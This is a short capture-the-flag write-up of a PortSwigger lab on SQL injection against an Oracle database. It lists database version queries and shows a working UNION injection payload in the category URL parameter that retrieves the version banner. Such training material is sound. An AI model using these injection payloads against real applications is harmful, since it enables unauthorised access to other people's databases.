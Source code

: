 ```yaml
---
layout: post
title: "SQLi attack, querying the database type and version on Oracle"
date: 2023-07-02
categories:
  - CTF
  - PortSwigger
tags:
  - SQLi
---
```


## Description
This [lab](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle){:target="_blank"} contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

## Querying the database type and version
Different databases provide different ways of querying their version. You often need to try out different queries to find one that works, allowing you to determine both the type and version of the database software.

The queries to determine the database version for some popular database types are as follows:

|Database type |Query |
|---|---|
|Oracle|`SELECT banner FROM v$version` <br>  `SELECT version FROM v$instance`|
|Microsoft|`SELECT @@version`|
|PostgreSQL|`SELECT version()`|
|MySQL|`SELECT @@version`|

## Steps

Given that it's an Oracle DB, it is mandatory for every `SELECT` statement to include a `FROM` clause. Oracle offers a placeholder table named `DUAL`, which can be utilized to help us determine the number of columns and their types.

For instance, through this union attack `?category=Pets' UNION SELECT banner,'a' FROM v$version--`, we can execute the subsequent query: `SELECT banner FROM v$version`.

<img src="https://jawad.ca/images/july2023/1.png" >

and it's solved! 
